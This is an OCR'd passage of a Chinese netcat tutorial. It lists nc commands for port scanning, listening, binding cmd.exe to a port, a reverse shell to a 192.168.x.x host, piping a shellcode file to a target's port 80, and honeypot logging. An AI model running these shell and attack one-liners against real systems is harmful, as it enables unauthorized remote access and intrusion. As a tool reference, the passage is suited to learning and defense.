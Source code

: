 讲解：连到192.168.x.x的TCP80端口

2)监听LOCAL主机，例子：

格式：nc -l -p 80

讲解：监听本机的TCP80端口

3)扫描远程主机，例子：

格式：nc -nvv -w2 -z 192.168.x.x 80-445

讲解：扫描192.168.x.x的TCP80到TCP445的所有端口

4)REMOTE主机绑定SHELL，例子：

格式：nc -l -p 5354 -t -e c:\WINDOWS\system32\cmd.exe

讲解：绑定REMOTE主机的CMDSHELL在REMOTE主机的TCP5354端口

5)REMOTE主机绑定SHELL并反向连接，例子：

格式：nc -t -e c:\WINDOWS\system32\cmd.exe 192.168.x.x 5354

讲解：绑定REMOTE主机的CMDSHELL并反向连接到192.168.x.x的TCP5354端口

以上为最基本的几种用法（其实NC的用法还有很多，

当配合管道命令&quot;|&quot;与重定向命令&quot;&lt;&quot;、&quot;&gt;&quot;等等命令功能更强大......）。

=====================================================================================================

高级用法：

6)作攻击程序用，例子：

格式1：type.exe c:\exploit.txt|nc -nvv 192.168.x.x 80

格式2：nc -nvv 192.168.x.x 80 &lt; c:\exploit.txt

讲解：连接到192.168.x.x的80端口，并在其管道中发送&amp;apos;c:\exploit.txt&amp;apos;的内容(两种格式确有相同的效果，

　 真是有异曲同工之妙:P)

附：&amp;apos;c:\exploit.txt&amp;apos;为shellcode等

7)作蜜罐用[1]，例子：

格式：nc -L -p 80

讲解：使用&amp;apos;-L&amp;apos;(注意L是大写)可以不停地监听某一个端口，直到ctrl+c为止

8)作蜜罐用[2]，例子：

格式：nc -L -p 80 &gt; c:\log.txt

讲解：使用&amp;apos;-L&amp;apos;可以不停地监听某一个端口，直到ctrl+c为止，同时把结果输出到&amp;apos;c:\log.txt&amp;apos;中，如果把&amp;apos;&gt;&amp;apos;

　 改为&amp;apos;&gt;&gt;&amp;apos;即可以追加日志

附：&amp;apos;c:\log.txt&amp;apos;为日志等

9)作蜜罐用[3]，例子：
